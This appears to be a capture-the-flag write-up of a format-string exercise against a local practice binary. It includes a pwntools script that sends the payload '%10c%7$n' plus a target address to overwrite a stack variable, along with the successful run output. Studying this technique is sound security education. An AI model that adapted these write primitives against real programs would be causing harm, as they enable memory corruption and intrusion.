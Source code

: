 # 10_format_var_overwrite Writeup

## Steps:
1. Run chall. This is another problem where we are modifying a target variable, but the input is limited so that we cannot reach the target the same way as before.
```
$ ./chall    

Your goal is to modify the variable @ 0x7ffc0b64e4a8

This exercise is to modify the variable using the '%n\%hn\%hhn' format specifier.


0x7ffc0b64e480: 0x0000000000000000 0x0000000000000000 
0x7ffc0b64e490: 0x0000000000000000 0x0000000000000000 
0x7ffc0b64e4a0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: AAAA
AAAA

0x7ffc0b64e480: 0x0000000a41414141 0x0000000000000000 
0x7ffc0b64e490: 0x0000000000000000 0x0000000000000000 
0x7ffc0b64e4a0: 0xffffffffffffffff 0x00000000deadbeef 

You failed to modify the target variable...
Maybe you didn't supply enough input? Try again!
```
2. Exploit format string vulnerability as the prompt indicates
   - Identify where on the stack input is written. In this case, it is `5`
   - Print some number of characters with %_c
   - %_$n with that being the stack address you want to write to
4. Write the payload
- `%10c`: Print 10 characters (i.e., add 10 to the total number of characters printed).
- `%7$n`: Write the number of bytes written so far (10 in this case) to the 7th argument on the stack, which is assumed to be the address you want to write to.
- Add padding if necessary to fill a full whole 8 byte value (in this case its not necessary)
- `p64(addr)`: Appends the 64-bit address you want to write to. This is placed on the stack to be referenced by %7$n.

```
from pwn import *

target = process('./chall')

target.recvuntil(b"variable @ ")
addr = target.recvuntil(b"\n").strip().decode()

addr = int(addr, 16)
log.info(hex(addr))

payload = b"%10c%7$n"
payload += p64(addr)

target.sendline(payload)

s = target.recvall().decode('latin-1')
print(s)
```

## Solution:
```
$ python3 exploit.py 
[+] Starting local process './chall': pid 68312
[*] 0x7ffcfe299e18
[+] Receiving all data: Done (613B)
[*] Process './chall' stopped with exit code 0 (pid 68312)

This exercise is to modify the variable using the '%n\%hn\%hhn' format specifier.


0x7ffcfe299df0: 0x0000000000000000 0x0000000000000000 
0x7ffcfe299e00: 0x0000000000000000 0x0000000000000000 
0x7ffcfe299e10: 0xffffffffffffffff 0x00000000deadbeef 

Enter input:          ð\x18)þü\x7f
0x7ffcfe299df0: 0x6e24372563303125 0x00007ffcfe299e18 
0x7ffcfe299e00: 0x000000000000000a 0x0000000000000000 
0x7ffcfe299e10: 0xffffffffffffffff 0x000000000000000a 

Congrats! You modified the target variable!
```
          
